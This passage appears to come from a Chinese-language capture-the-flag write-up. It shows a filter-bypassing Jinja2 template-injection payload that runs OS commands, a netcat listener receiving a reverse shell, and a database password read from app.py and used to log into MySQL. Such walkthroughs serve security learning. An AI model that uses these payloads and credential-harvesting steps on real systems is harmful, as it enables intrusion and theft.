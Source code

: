 SSTI 漏洞测试截图：

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/6609a6dacbedaa7a.png)

SSTI RCE payload：

```text
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

> SSTI payload from: [https://swisskyrepo.github.io/PayloadsAllTheThings/Server Side Template Injection/#jinja2-filter-bypass](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/#jinja2-filter-bypass)  
> Note1: `attr(obj, name)` 是 JinJa2 的原生函数，用于获取对象的属性。  
> Note2: `\x5f` 是 `_` 的十六进制格式。

接收到的 Reverse Shell：

```console
root@kali-server:~# nc -lvnp 4444
Listening on 0.0.0.0 4444
www-data@iclean:/opt/app$ whoami
www-data
```

### Pivoting from www-data to consuela

在 app.py 文件中获取到数据库配置的用户名及密码：

```console
www-data@iclean:/opt/app$ ls
app.py
static
templates
www-data@iclean:/opt/app$ cat app.py
...
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
...
```

连接数据库：

```console
www-data@iclean:/opt/app$ mysql -h 127.0.0.1 -u iclean -ppxCsmnGLckUb -D capiclean
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 208
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;
```